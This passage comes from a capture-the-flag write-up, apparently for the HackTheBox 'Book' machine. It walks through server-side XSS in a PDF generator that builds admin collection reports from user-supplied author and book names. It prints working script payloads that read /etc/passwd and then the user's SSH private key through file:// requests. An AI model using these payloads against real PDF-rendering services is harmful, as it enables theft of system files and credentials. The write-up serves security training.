 ![Untitled](/img/htb-book/13.png)

While checking the admin panel, In Collection Tab we can see the `Collections PDF` which contains the PDF that is uploaded in `/books.php`. So I uploaded a PDF in the `User` account and checked what changes in the `Admin` account.

![Untitled](/img/htb-book/14.png)

User Account:

![Untitled](/img/htb-book/15.png)

Admin Account:

![Untitled](/img/htb-book/16.png)

We can see that the `author` and `book` name is reflecting in the pdf.

After some research, I came to know we can do XSS because the content we are providing in `User` account is got reflecting in `Admin` Collection Pdf. I searched for any exploits and found this.

> https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html?m=1

So We can inject in `author` and `book` name, I started my testing with this.

```
[img src=x onerror=document.write('0xw0lf')](img src=x onerror=document.write('0xw0lf'))
```

User Account:

![Untitled](/img/htb-book/17.png)

Admin Account:

![Untitled](/img/htb-book/18.png)

Its working so try getting `/etc/passwd`

```
[script](script)x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();[/script](/script)
```

## Getting User Shell

User Account:

![Untitled](/img/htb-book/19.png)

Admin Account:

![Untitled](/img/htb-book/20.png)

Yeah we got it and found user `reader`, So why don’t we try getting `reader` ssh private key.

```
[script](script)x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();[/script](/script)
```
